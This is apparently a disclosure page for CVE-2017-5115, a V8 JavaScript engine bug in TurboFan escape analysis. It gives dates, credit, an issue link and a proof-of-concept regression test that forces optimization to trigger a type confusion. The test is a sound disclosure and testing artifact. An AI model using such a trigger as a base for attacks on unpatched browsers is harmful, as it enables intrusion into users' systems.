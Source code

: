 # CVE-2017-5115

- Report: Jul 2017
- Fix: Jul 2017
- Credit: Marco Giovannini

## PoC

```javascript
// Copyright 2017 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax --turbo-escape

function f(x) {
  var o = {a : 0, b: 0};
  if (x == 0) {
    o.a = 1
  } else {
    if (x <= 1) {
      if (x == 2) {
        o.a = 2;
      } else {
        o.a = 1
      }
      o.a = 2;
    } else {
      if (x == 2) {
        o.a = "x";
      } else {
        o.a = "x";
      }
      o.b = 22;
    }
    o.b = 22;
  }
  return o.a + 1;
}

f(0,0);
f(1,0);
f(2,0);
f(3,0);
f(0,1);
f(1,1);
f(2,1);
f(3,1);
%OptimizeFunctionOnNextCall(f);
assertEquals(f(2), "x1");
```

## Reference

- [Issue](https://crbug.com/744584)
